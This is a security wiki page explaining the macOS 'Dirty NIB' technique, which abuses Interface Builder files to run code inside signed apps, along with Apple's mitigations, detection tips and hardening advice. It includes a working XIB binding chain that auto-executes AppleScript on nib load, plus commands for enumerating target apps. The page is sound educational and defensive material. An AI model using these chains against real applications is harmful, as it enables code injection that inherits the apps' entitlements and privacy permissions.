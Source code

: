 # macOS Dirty NIB

Dirty NIB refers to abusing Interface Builder files (.xib/.nib) inside a signed macOS app bundle to execute attacker-controlled logic inside the target process, thereby inheriting its entitlements and TCC permissions. This technique was originally documented by xpn (MDSec) and later generalized and significantly expanded by Sector7, who also covered Apple’s mitigations in macOS 13 Ventura and macOS 14 Sonoma. For background and deep dives, see the references at the end.

> TL;DR
> • Before macOS 13 Ventura: replacing a bundle’s MainMenu.nib (or another nib loaded at startup) could reliably achieve process injection and often privilege escalation.  
> • Since macOS 13 (Ventura) and improved in macOS 14 (Sonoma): first‑launch deep verification, bundle protection, Launch Constraints, and the new TCC “App Management” permission largely prevent post‑launch nib tampering by unrelated apps. Attacks may still be feasible in niche cases (e.g., same‑developer tooling modifying own apps, or terminals granted App Management/Full Disk Access by the user).

## What are NIB/XIB files

Nib (short for NeXT Interface Builder) files are serialized UI object graphs used by AppKit apps. Modern Xcode stores editable XML .xib files which are compiled into .nib at build time. A typical app loads its main UI via `NSApplicationMain()` which reads the `NSMainNibFile` key from the app’s Info.plist and instantiates the object graph at runtime.

Key points that enable the attack:
- NIB loading instantiates arbitrary Objective‑C classes without requiring them to conform to NSSecureCoding (Apple’s nib loader falls back to `init`/`initWithFrame:` when `initWithCoder:` is not available).
- Cocoa Bindings can be abused to call methods as nibs are instantiated, including chained calls that require no user interaction.

## Dirty NIB injection process (attacker view)

The classic pre‑Ventura flow:
1) Create a malicious .xib
- Add an `NSAppleScript` object (or other “gadget” classes such as `NSTask`).
- Add an `NSTextField` whose title contains the payload (e.g., AppleScript or command arguments).
- Add one or more `NSMenuItem` objects wired via bindings to call methods on the target object.

2) Auto‑trigger without user clicks
- Use bindings to set a menu item’s target/selector and then invoke the private `_corePerformAction` method so the action fires automatically when the nib loads. This removes the need for a user to click a button.

Minimal example of an auto‑trigger chain inside a .xib (abridged for clarity):
```xml
<objects>
  <customObject id="A1" customClass="NSAppleScript"/>
  <textField id="A2" title="display dialog \"PWND\""/>
  <!-- Menu item that will call -initWithSource: on NSAppleScript with A2.title -->
  <menuItem id="C1">
    <connections>
      <binding name="target" destination="A1"/>
      <binding name="selector" keyPath="initWithSource:"/>
      <binding name="Argument" destination="A2" keyPath="title"/>
    </connections>
  </menuItem>
  <!-- Menu item that will call -executeAndReturnError: on NSAppleScript -->
  <menuItem id="C2">
    <connections>
      <binding name="target" destination="A1"/>
      <binding name="selector" keyPath="executeAndReturnError:"/>
    </connections>
  </menuItem>
  <!-- Triggers that auto‑press the above menu items at load time -->
  <menuItem id="T1"><connections><binding keyPath="_corePerformAction" destination="C1"/></connections></menuItem>
  <menuItem id="T2"><connections><binding keyPath="_corePerformAction" destination="C2"/></connections></menuItem>
</objects>
```
This achieves arbitrary AppleScript execution in the target process upon nib load. Advanced chains can:
- Instantiate arbitrary AppKit classes (e.g., `NSTask`) and call zero‑argument methods like `-launch`.
- Call arbitrary selectors with object arguments via the binding trick above.
- Load AppleScriptObjC.framework to bridge into Objective‑C and even call selected C APIs.
- On older systems that still include Python.framework, bridge into Python and then use `ctypes` to call arbitrary C functions (Sector7’s research).

3) Replace the app’s nib
- Copy target.app to a writable location, replace e.g., `Contents/Resources/MainMenu.nib` with the malicious nib, and run target.app. Pre‑Ventura, after a one‑time Gatekeeper assessment, subsequent launches only performed shallow signature checks, so non‑executable resources (like .nib) weren’t re‑validated.

Example AppleScript payload for a visible test:
```applescript
set theDialogText to "PWND"
display dialog theDialogText
```

## Modern macOS protections (Ventura/Monterey/Sonoma/Sequoia)

Apple introduced several systemic mitigations that dramatically reduce the viability of Dirty NIB in modern macOS:
- First‑launch deep verification and bundle protection (macOS 13 Ventura)
  - On first run of any app (quarantined or not), a deep signature check covers all bundle resources. Afterwards, the bundle becomes protected: only apps from the same developer (or explicitly allowed by the app) may modify its contents. Other apps require the new TCC “App Management” permission to write into another app’s bundle.
- Launch Constraints (macOS 13 Ventura)
  - System/Apple‑bundled apps can’t be copied elsewhere and launched; this kills the “copy to /tmp, patch, run” approach for OS apps.
- Improvements in macOS 14 Sonoma
  - Apple hardened App Management and fixed known bypasses (e.g., CVE‑2023‑40450) noted by Sector7. Python.framework was removed earlier (macOS 12.3), breaking some privilege‑escalation chains.
- Gatekeeper/Quarantine changes
  - For a broader discussion of Gatekeeper, provenance, and assessment changes that impacted this technique, see the page referenced below.

> Practical implication
> • On Ventura+ you generally cannot modify a third‑party app’s .nib unless your process has App Management or is signed by the same Team ID as the target (e.g., developer tooling).  
> • Granting App Management or Full Disk Access to shells/terminals effectively re‑opens this attack surface for anything that can execute code inside that terminal’s context.

### Addressing Launch Constraints

Launch Constraints block running many Apple apps from non‑default locations beginning with Ventura. If you were relying on pre‑Ventura workflows like copying an Apple app to a temp directory, modifying `MainMenu.nib`, and launching it, expect that to fail on >= 13.0.

## Enumerating targets and nibs (useful for research / legacy systems)

- Locate apps whose UI is nib‑driven:
```bash
find /Applications -maxdepth 2 -name Info.plist -exec sh -c \
  'for p; do if /usr/libexec/PlistBuddy -c "Print :NSMainNibFile" "$p" >/dev/null 2>&1; \
   then echo "[+] $(dirname "$p") uses NSMainNibFile=$( /usr/libexec/PlistBuddy -c "Print :NSMainNibFile" "$p" )"; fi; done' sh {} +
```
- Find candidate nib resources inside a bundle:
```bash
find target.app -type f \( -name "*.nib" -o -name "*.xib" \) -print
```
- Validate code signatures deeply (will fail if you tampered with resources and didn’t re‑sign):
```bash
codesign --verify --deep --strict --verbose=4 target.app
```

> Note: On modern macOS you will also be blocked by bundle protection/TCC when trying to write into another app’s bundle without proper authorization.

## Detection and DFIR tips

- File integrity monitoring on bundle resources
  - Watch for mtime/ctime changes to `Contents/Resources/*.nib` and other non‑executable resources in installed apps.
- Unified logs and process behavior
  - Monitor for unexpected AppleScript execution inside GUI apps and for processes loading AppleScriptObjC or Python.framework. Example:
    ```bash
    log stream --info --predicate 'processImagePath CONTAINS[cd] ".app/Contents/MacOS/" AND (eventMessage CONTAINS[cd] "AppleScript" OR eventMessage CONTAINS[cd] "loadAppleScriptObjectiveCScripts")'
    ```
- Proactive assessments
  - Periodically run `codesign --verify --deep` across critical apps to ensure resources remain intact.
- Privilege context
  - Audit who/what has TCC “App Management” or Full Disk Access (especially terminals and management agents). Removing these from general‑purpose shells prevents trivially re‑enabling Dirty NIB‑style tampering.

## Defensive hardening (developers and defenders)

- Prefer programmatic UI or limit what’s instantiated from nibs. Avoid including powerful classes (e.g., `NSTask`) in nib graphs and avoid bindings that indirectly invoke selectors on arbitrary objects.
- Adopt the hardened runtime with Library Validation (already standard for modern apps). While this doesn’t stop nib injection by itself, it blocks easy native code loading and forces attackers into scripting‑only payloads.
- Do not request or depend on broad App Management permissions in general‑purpose tools. If MDM requires App Management, segregate that context from user‑driven shells.
- Regularly verify your app bundle’s integrity and make your update mechanisms self‑heal bundle resources.

## Related reading in HackTricks

Learn more about Gatekeeper, quarantine and provenance changes that affect this technique:

[[../macos-security-protections/macos-gatekeeper.md]]

## References

- xpn – DirtyNIB (original write‑up with Pages example): https://blog.xpnsec.com/dirtynib/
- Sector7 – Bringing process injection into view(s): exploiting all macOS apps using nib files (April 5, 2024): https://sector7.computest.nl/post/2024-04-bringing-process-injection-into-view-exploiting-all-macos-apps-using-nib-files/

